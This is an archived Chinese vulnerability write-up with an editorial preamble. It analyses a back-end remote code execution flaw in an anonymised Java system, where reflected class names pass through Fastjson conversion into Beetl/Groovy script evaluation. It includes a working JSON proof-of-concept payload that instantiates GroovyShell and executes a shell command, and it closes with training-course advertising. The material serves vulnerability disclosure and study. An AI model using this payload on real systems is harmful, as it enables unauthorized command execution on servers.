# 某系统存在Beetl反序列化模板注入RCE漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：匿名系统 Beetl/Fastjson/GroovyShell 后台执行链
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：明确后台但跳过鉴权使角色/权限边界未知；缺Groovy依赖/Beetl沙箱配置及版本；没有HTTP方法/路径/认证/完整关键源代码，截图未核
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 明确后台但跳过鉴权使角色/权限边界未知
2. 反射任意类加JSONObject.toJavaObject实例化再模板显式evaluate，不能只把RCE归因Beetl或Fastjson反序列化
3. 缺Groovy依赖/Beetl沙箱配置及版本
4. 请求JSON后粘中文根据上面代码导致不可直接解析
5. 没有HTTP方法/路径/认证/完整关键源代码，截图未核
6. xx.jar及包名不能唯一定位产品，无公告/补丁/CVE，需保留匿名审计案例身份并清广告

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

学员投稿
                    学员投稿  进击安全   2026-02-18 02:13  
  
# 免责申明本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
## 一、前言  
  
    由于这个是一个后台漏洞，所以不分析对应的鉴权关系，直接我们可以看对应的代码漏洞。  
  
二、漏洞分析  
  
    对应漏洞位置。  
  
```
xx.jar\com\dongbao\web\base\InitController.java
```  
  
  
在该java文件当中发现了下述接口。  
  
  
  
    跟进代码发现，利用底层函数获取beetStringGroupTemplate，获取到其对象gt。  
  
  
  
    获取json参数赋值给 param 和 paramTyoe  
  
  
  
    然后param不为空，进入如下for循环。  
  
  
  
    先获取到paramType的键值（也就是参数infoType），赋值给 propertyType，然后判断propertyType是否为空，不为空，就反射获取propertyType 的类（也就是paramType（也就是infoType）），然后只要 classType不包含 HashMap 关键字，就可以不进入if，然后就可以把classType传入 params，然后进入下述代码。  
  
  
  
传入params，code 到 runScript 函数执行，全程除了 Hashmap外，无过滤  
  
构造poc  
```
{"code":"var result = shell.evaluate('\"whoami\".execute().text'); return result;","param":{"shell":{}},"infoType":{"shell":"groovy.lang.GroovyShell"}}根据上面代码，
```  
  
param 为   
“  
shell  
”  
: {}，  
infoType  
即为paramType，为  
```
"shell":"groovy.lang.GroovyShell"
```  
  
  
此时,String propertyType = (String)paramType.get(k);，k值为   
shell  
，  
paramType.get(k)  
的值为  
groovy.lang.GroovyShell  
，然后赋值给propertyType，此时propertyType 的值为   
groovy.lang.GroovyShell  
  
  
  
    反射获取  
groovy.lang.GroovyShell  
.class，赋值给 classType  
  
  
  
    然后调用，  
TypeParseUtil.convert({}, groovy.lang.GroovyShell  
.class  
)跟进函数  
TypeParseUtil.convert(  
)  
  
  
  
    调用了  
JSONObject.toJavaObject({}, groovy.lang.GroovyShell  
.class  
)  
  
    最终调用链  
```
│ params.put(k, TypeParseUtil.convert(v, classType, null))
│ ↓
│ TypeParseUtil.convert({}, groovy.lang.GroovyShell.class)
│ ↓
│ JSONObject.toJavaObject({}, groovy.lang.GroovyShell.class)
│ ↓
│ new GroovyShell()  ← 创建了GroovyShell实例
```  
  
  
最终执行效果为  
  
GroovyShell.evaluate('"whoami".execute().text')   
  
导致反序列化RCE。  
  
  
三、漏洞复现  
  
  
  
  
   成功执行whoami命令。  
  
**广告区域**  
  
  
    目前第四期进阶课程已经开始，课表如下：  
  
  
  
同时报名第四期基础课程同样可看，课表如下：  
  
  
  
同时具备内部资料以及靶场相关福利，想要了解的师傅可以冲了。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
